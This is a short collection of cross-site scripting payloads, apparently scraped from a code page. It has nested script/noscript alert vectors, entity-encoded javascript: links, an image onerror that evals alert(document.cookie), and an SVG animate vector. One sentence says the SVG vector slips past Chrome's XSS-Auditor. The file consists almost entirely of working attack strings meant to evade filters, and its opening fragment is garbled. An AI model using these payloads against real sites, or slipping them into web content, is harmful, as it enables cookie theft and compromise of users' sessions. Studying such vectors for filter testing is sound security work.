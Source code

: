 <output>
<noscript onerror=prompt(0);><a href="javascript:alert("XSS")>XSS</a>"><script onerror="<noscript onerror="<script>alert("XSS")</script>"><IMG src=<script src="/">alert(" "XSS" ")</script></noscript>"<script>alert("XSS")</script></noscript>
</output>
<a href="javascript&colon;alert&lpar;document&period;domain&rpar;">Click Here</a>

<img src=x onerror="eval('alert(document.cookie)')"/>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>This payload injects a malicious script into an SVG element. The script sets the href attribute of the animate element to javascript:alert(1), which will execute the alert function when clicked. Since the script is injected into an SVG element, the Chrome XSS-Auditor fails to detect it.
<a href=”#” onclick=”… var input=’controllable data here’; …”>


